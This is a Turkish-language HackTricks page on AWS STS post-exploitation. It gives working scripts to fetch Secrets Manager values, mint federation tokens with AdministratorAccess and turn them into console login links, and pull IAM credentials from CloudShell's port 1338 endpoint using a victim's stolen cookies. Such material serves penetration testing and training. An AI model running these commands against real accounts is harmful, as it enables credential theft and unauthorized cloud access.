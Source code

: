 # AWS - STS Post Exploitation

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## STS

Daha fazla bilgi için:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

#### Yeni Yöntem Aralık 2024: Web Konsol Bağlantısı Gereksinimini Aşma, HTTPS POST İsteği ile SecretsManager API'sine Doğrudan Gizli Bilgileri Alma (Giriş Bağlantısı veya Web Konsolu Yok)

Dün, yaklaşan sınav için PR olarak gönderildi (ARTE: ex16x41) ancak PR'nın görünmediğini görüyorum, belki yanlış gönderildi, tekrar deneyelim:
Bu yöntemi kullanarak herhangi bir URL açma, giriş bağlantılarını biçimlendirme veya CLI / Web Konsolu kullanma gereksinimini tamamen aşmış oluyorsunuz.
Peki burada ne yaptık?
AWS Secrets Manager API'si ile doğrudan etkileşimde bulunan bu scripti yazdım, kesinlikle basit ve anlaşılır.
Scripti çalıştırdığınızda, AWS Secrets Manager uç noktasına bir HTTPS POST isteği gönderir
https://secretsmanager.<region>.amazonaws.com/
GetSecretValue isteği, POST isteğinin bir parçası olarak gönderilir ve SigV4 imzası ile kimlik doğrulaması yapılır (boto3 tarafından yönetilir).
Secrets Manager İsteği İşler:
AWS, isteği kullanıcı veya role ekli olan IAM politikalarına karşı doğrular (gizli değeri yalnızca web konsolu olarak görüntüleyebileceğimizi bildiğimiz gibi)
Eğer izin verilirse, Secrets Manager servisi yanıt olarak istenen gizli değeri döner.
**POC Demo:**
Gizli değeri almak için CLI AWS komutu çalışmıyor çünkü erişim reddedildi ->
Ancak, resimde gizli ID'yi bilerek doğrudan bayrağı çıkarmanın basitliğini görebilirsiniz (bunu, kullanıcı profili ile giriş yaptığımızda daha önce enum yapıyoruz)
![image](https://github.com/user-attachments/assets/d05a1a96-04c0-4404-b4bd-dbfa93c6494b)
Not: Bu yöntemin, politika izin veriyorsa senaryoya bağlı olarak evrensel olarak kullanılabileceğini düşünüyorum (ancak CLI üzerinden izin vermeyen politikanın kısıtlamalarını aşar)
Bu nedenle, bir politika izin verdiğinde her zaman kullanılabilir (alternatif test seçeneği olarak)
Yan Not: Aynı yöntemle hizmetin API'si ile doğrudan etkileşimde bulunarak uygulayabileceğiniz diğer teknikler hakkında merak ediyorum ve şimdi AWS CLI, herhangi bir ayrıcalık yükseltme veya burada olduğu gibi sonrası istismar süreci için.
**Kod:**
'''
Python
import boto3

session = boto3.Session(profile_name="lab6")
client = session.client("secretsmanager", region_name="us-east-1")

# Özel bir User-Agent ayarlayın
client.meta.events.register(
'before-call.secretsmanager.GetSecretValue',
lambda params, **kwargs: params['headers'].update({'User-Agent': 'my-custom-tool'})
)

# Gizli değeri doğrudan secretsmanager API'si aracılığıyla alın
response = client.get_secret_value(SecretId="flag_sts_lab_3")
print(response['SecretString'])
'''

### IAM Kimlik Bilgilerinden Konsola

Bazı IAM kimlik bilgilerini elde etmeyi başardıysanız, aşağıdaki araçları kullanarak **web konsoluna erişmekle** ilgilenebilirsiniz.\
Kullanıcı/rolün **`sts:GetFederationToken`** iznine sahip olması gerektiğini unutmayın.

#### Özel script

Aşağıdaki script, varsayılan profili ve varsayılan bir AWS konumunu (gov değil ve cn değil) kullanarak, web konsoluna giriş yapmak için kullanabileceğiniz imzalı bir URL verecektir:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)



# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

[https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler) ile **bir web konsol bağlantısı oluşturabilirsiniz**.
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
IAM kullanıcısının `sts:GetFederationToken` iznine sahip olduğundan emin olun veya üstlenilecek bir rol sağlayın.
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) AWS kimlik bilgilerini güvenli bir şekilde depolamak ve erişmek için bir geliştirme ortamında kullanılan bir araçtır.
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
Ayrıca **aws-vault** kullanarak **tarayıcı konsol oturumu** alabilirsiniz.
{% endhint %}

#### Konsoldan IAM Kimlik Bilgilerine

[**Bu yazıda ilk olarak keşfedilmiştir**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/), Eğer bir web konsoluna erişimi ele geçirmeyi başarırsanız (belki çerezleri çaldınız ve .aws klasörüne erişemediniz), o kullanıcı için **CloudShell** aracılığıyla bazı IAM token kimlik bilgilerini alabilirsiniz.

CloudShell, IAM kimlik bilgilerini **1338 numaralı portta belgelenmemiş bir uç nokta aracılığıyla** açığa çıkarır. Kurbanın oturum çerezlerini tarayıcınıza yükledikten sonra, CloudShell'a gidip IAM kimlik bilgilerini almak için aşağıdaki komutları verebilirsiniz.
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
